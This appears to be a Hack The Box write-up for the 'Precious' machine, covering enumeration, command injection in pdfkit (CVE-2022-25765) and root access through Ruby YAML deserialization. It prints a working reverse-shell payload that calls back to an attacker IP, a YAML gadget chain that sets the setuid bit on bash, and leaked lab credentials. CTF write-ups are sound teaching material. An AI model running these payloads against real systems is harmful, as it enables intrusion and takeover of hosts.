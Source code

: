 ![](precious_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.189 precious.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is redirecting to hostname `precious.htb`

![](screenshots/http-precious.htb.png)

# Foothold

## pdfkit CVE-2022-25765

HTTP Headers are leaking server version details
```bash
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15 
```

If we look into the metadata of html converted pdf file,

![](screenshots/pdf-metadata.png)

It contains the utility detail that used to generate pdf file -> `pdfkit v0.8.6` 

* It is vulnerable for CVE-2022-25765 -> https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

Payload -> `http://%2520%60+<URL-ENCODED-COMMAND>+%60`

For some reason, bash reverse shell is not working but ruby, perl or python reverse shell are working, generated from -> https://www.revshells.com/

```bash
curl -X POST \
    --data-binary $'url=http://%2520%60+python3%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.54%22%2C4141%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty.spawn%28%22bash%22%29%27+%60' \
    $'http://precious.htb/'
```

![](screenshots/user-shell.png)

# Privesc

Got shell as "ruby" user.

There are 2 users on the box
```bash
╔══════════╣ Users with console
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
root:x:0:0:root:/root:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

Found user "henry" creds in `/home/ruby/.bundle` config file
```bash
(remote) ruby@precious:/home/ruby/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

**Creds:** `henry:Q3c1AqGHtoI0aXAYFH`

And user "henry" can run `/opt/update_dependencies.rb` on `/usr/bin/ruby` with sudo.
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

## Ruby YAML deserialization

`/opt/update_dependencies.rb` script is loading "dependencies.yml" file.
```rb
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

This Ruby code is designed to compare installed dependencies with those specified in the "dependencies.yml" file.

The method `list_from_file` reads the dependencies listed in the "dependencies.yml" file using the `YAML.load` method, which converts the YAML data into a Ruby data structure. The method `list_local_gems` uses the `Gem::Specification` method to get a list of the installed gems, which are sorted by name and version number.

The `gems_file` variable is assigned the list of dependencies from the "dependencies.yml" file, and `gems_local` variable is assigned the list of locally installed gems. Then, the code compares the names and versions of each gem listed in the "dependencies.yml" file with the locally installed gems.

For each gem listed in "dependencies.yml", the code loops through each locally installed gem and checks if the name matches. If there is a match, the code checks if the installed version is different from the version listed in the "dependencies.yml" file. If there is a difference, the code outputs a message stating that the installed version differs from the one specified in the file. If there is no difference, the code outputs a message stating that the installed version is equal to the one specified in the file.

The `update_gems()` method is left empty.

And there is deserialization vulnerability in ruby YAML dep -> https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/
```yml
cat > dependencies.yml<<EOF
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO &1
      io: !ruby/object:Gem::Package::TarReader::Entry &1
        read: 0
        header: "abc"
      debug_output: !ruby/object:Net::WriteAdapter &1
        socket: !ruby/object:Gem::RequestSet &1
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module "Kernel"
            method_id: :system
          git_set: chmod +s /bin/bash
        method_id: :resolve
EOF
```

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![](screenshots/rooted.png)
